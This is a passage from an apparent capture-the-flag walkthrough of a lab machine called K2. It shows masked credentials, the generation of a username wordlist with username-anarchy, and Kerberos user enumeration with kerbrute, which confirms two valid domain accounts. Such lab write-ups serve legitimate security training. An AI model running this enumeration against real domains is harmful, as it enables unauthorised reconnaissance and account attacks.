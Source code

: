 ```bash
james:************
rose:************
bob:***********
steve:***********
cait:**************
xu:************
ash:****************
```

<p>
  
- cloned <strong>username-anarchy</strong> repository<br>
- execute it to create a custom username wordlist based on <strong>Rose Bud</strong> and <strong>James Bold</strong></p>

```bash
:~/K2# git clone https://github.com/urbanadventurer/username-anarchy
```

```bash
:~/K2/username-anarchy# ls
CHANGELOG.md  debian  format-plugins.rb  LICENSE  names  README.md  test-names2.txt  test-names3.txt  test-names.txt  username-anarchy
```

```bash
:~/K2/username-anarchy# ./username-anarchy Rose Bud >> ../A.txt && ./username-anarchy James Bold >> ../A.txt
```

```bash
:~/K2/username-anarchy# cd ..
```

```bash
:~/K2# head -n 8 A.txt
rose
rosebud
rose.bud
roseb
r.bud
rbud
brose
b.rose
```

<p>

- identified <strong>r.bud</strong>@k2.thm and <strong>j.bold</strong></p>

```bash
:~/K2# kerbrute userenum -d k2.thm --dc k2server.k2.thm A.txt

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 09/29/25 - Ronnie Flathers @ropnop

2025/09/29 xx:xx:xx >  Using KDC(s):
2025/09/29 xx:xx:xx >  	K2server.k2.thm:88

2025/09/29 xx:xx:xx >  [+] VALID USERNAME:	 r.bud@k2.thm
2025/09/29 xx:xx:xx >  [+] VALID USERNAME:	 j.bold@k2.thm
2025/09/29 xx:xx:xx >  Done! Tested 28 usernames (2 valid) in 0.007 seconds
```
